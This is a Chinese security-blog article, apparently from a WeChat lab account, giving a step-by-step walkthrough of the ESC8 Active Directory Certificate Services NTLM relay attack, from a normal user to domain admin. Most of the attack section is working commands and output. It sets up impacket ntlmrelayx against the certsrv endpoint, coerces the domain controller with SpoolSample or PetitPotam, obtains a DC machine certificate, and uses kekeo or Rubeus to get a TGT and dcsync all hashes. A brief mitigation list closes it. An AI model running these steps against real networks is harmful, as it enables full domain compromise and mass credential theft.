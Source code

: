 ##  从证书服务到域管

原创 执念于心  [ 水滴安全实验室 ](javascript:void\(0\);)

**水滴安全实验室** ![]()

微信号 EversecLab

功能介绍 水滴安全实验室－互联网安全资讯订阅号

____

__

收录于话题

## 概述

最近一篇有关于域中证书服务攻击面的文章在国外安全圈中流行开来，其中威胁比较大的就当属  
ESC8 也被叫做ADCS Relay  
attack，就连mimikatz的作者也在twitter上发布了漏洞演示视频，本文将讲解并演示如何利用该漏洞，在一个默认安装了证书web服务的域环境中，使用普通用户凭据，直接获取到域管权限。

## 攻击流程

  1. 使用打印机bug，让域控使用机器用户身份发起ntlm请求。

  2. 使用ntlmrelay，将域控的请求relay到证书服务的web端点，从而通过验证并获得域机器身份。

  3. 通过证书模板DomainController，给该机器用户申请一个证书。

  4. 利用该证书与域进行认证，从而可以持久性获取到该机器用户的权限，也就是域控的机器用户权限。

## 利用流程

### 查找证书web服务端点

在域中定位ca服务器的办法比较多，最简单的可以使用certutil命令：

    
    
    certutil -config - -ping

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175820.png)

就获取到了证书服务器的内网地址：

    
    
    http://win-pj6elfeg09p.test.local/certsrv/certfnsh.asp  
    

### 设置监听

首先使用impacket的ntlmrelayx.py  
进行监听，需要使用最新的impacket，安装如下：

    
    
    git clone https://github.com/SecureAuthCorp/impacket ./impacket  
    cd impacket  
    git fetch origin pull/1101/head:ntlmrelayx-adcs-attack  
    git checkout ntlmrelayx-adcs-attack  
    python3 setup.py install  
    cd examples  
    python3 ntlmrelayx.py -t http://my.victim.host/certsrv/certfnsh.asp -smb2support --adcs  
    

然后使用ntlmrelayx 设置好relay目标，并监听：

    
    
    ntlmrelayx.py -debug -smb2support --target http://win-pj6elfeg09p.test.local/certsrv/certfnsh.asp --adcs --template DomainController  
    

### 打印机bug

然后我们需要使用到打印机bug，让域控回连到我们监听的服务上，使用spoolsample或者petitpotam都可以，当然如果我们有域账号，也可以使用printbug.py
或者 mimikatz的misc::spooler：

    
    
    SpoolSample.exe dcip attackip

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175822.png)

  

    
    
    petitpotam.exe attackip dcip

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175823.png)

然后我们就收到了请求:  

    
    
    [*] Generating CSR...  
    [*] CSR generated!  
    [*] Getting certificate...  
    [*] GOT CERTIFICATE!  
    [*] Base64 certificate of user SDC$:  
    MIIRhQIBAzCCEU8GCSqGSIb3DQEHA....2dmQ==  
    

### 获取域管

有了这个证书之后，可以直接使用kekeo或者rubeus，申请tgt，从而能够dcsync

    
    
    kekeo:  
    base64 /input:on  
    tgt::ask /pfx:xxx /user:sdc$ /domain:test.local /ptt  
      
    rubeus:  
    Rubeus.exe asktgt /user:SDC$ /certificate:xxx /domain:test.local /dc:192.168.239.147 /ptt  
    ServiceName           :  krbtgt/test.local  
      ServiceRealm          :  TEST.LOCAL  
      UserName              :  SDC$  
      UserRealm             :  TEST.LOCAL  
      StartTime             :  2021/8/5 17:16:26  
      EndTime               :  2021/8/6 3:16:26  
      RenewTill             :  2021/8/12 17:16:26  
      Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable  
      KeyType               :  rc4_hmac  
      Base64(key)           :  BPE8UFgtl1X3o8XjYazkWQ==  
    

导入成功之后，就可以直接dcsync，从而获取到所有域用户的hash，从而获取了域管理权限：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806175824.png)

## 漏洞演示

## 检测和防御

  1. 如果不需要，可以关闭证书服务的web端点。

  2. 可以将我们relay到的web端点  
`certsrv`，该iis配置中的ntlm认证删除，这样就无法使用ntlm进行认证，也就封堵了relay攻击。

## 参考

  * Certified Pre-Owned`2021年6月17发布`

  * AD CS relay attack - practical guide`2021年6月23发布`

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

从证书服务到域管

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

